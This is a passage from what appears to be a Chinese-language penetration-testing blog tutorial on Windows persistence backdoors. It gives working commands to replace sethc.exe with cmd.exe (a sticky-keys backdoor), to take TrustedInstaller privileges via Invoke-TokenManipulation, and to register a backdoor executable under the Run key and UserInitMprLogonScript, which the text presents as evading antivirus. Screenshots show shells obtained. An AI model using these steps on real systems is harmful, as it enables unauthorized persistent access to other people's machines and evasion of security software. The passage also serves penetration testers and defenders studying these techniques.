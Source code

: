 即使在没有登录进系统之前，连按五次shift键也可以弹出这个程序，那么替换`C:\windows\system32\sethc.exe`为想要启动的后门程序即可，这里替换为我们用最常见的cmd.exe
```
Move C:\windows\system32\sethc.exe C:\windows\system32\sethc.exe.bak
Copy C:\windows\system32\cmd.exe C:\windows\system32\sethc.exe
```
但是发现在一些做了防护的主机上，即使是system权限也无法修改sethc.exe，只有TrustedInstaller权限才可以
![](https://img-blog.csdnimg.cn/a670984b95ca4bf78368ee6ee07397b8.png)

首先进入shell启动TrustedInstaller服务
`sc.exe start TrustedInstaller`
![](https://img-blog.csdnimg.cn/55df00d9230e42998458fc59f5fd6cb5.png)

然后获取进程，加载Invoke-TokenManipulation
```
Import-Module Invoke-TokenManipulation.ps1
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId 4760
```
![](https://img-blog.csdnimg.cn/fc7feab9905b40d6a2e34cc5287924e5.png)
最后再执行更改sethc.exe的命令，成功植入粘滞键后门
![](https://img-blog.csdnimg.cn/0df701bdd0cc4214bfa710263f1b671b.png)
3389连接测试一下，成功获取cmd.exe
![](https://img-blog.csdnimg.cn/fafd7748a4444a1e941e44b6d7e9b013.png)


参考：
[渗透技巧——Token窃取与利用](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Token%E7%AA%83%E5%8F%96%E4%B8%8E%E5%88%A9%E7%94%A8)
#### 自启动后门
windows提供了专门的开机自启动注册表。在每次开机完成后，计算机会自动遍历自启动注册表下的键值，获取键值中的程序路径，并创建进程启动程序

>//开机时启动程序
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run

添加键test，值为后门程序路径，直接执行命令
```
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test /t REG_SZ /d "C:\Users\bmth\Desktop\backdoor.exe"
```
![](https://img-blog.csdnimg.cn/a4f072b0ff244dfa90fd79827167f7ad.png)
使用msfvenom生成木马，监听，重启后成功返回shell
![](https://img-blog.csdnimg.cn/bc7304ad20a2414d9ea86ca569bf596e.png)

还有一个Windows登录脚本Logon Scripts，它能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截，当用户登录时触发
```
REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\Users\bmth\Desktop\backdoor.exe"
```
重启后登录成功得到shell


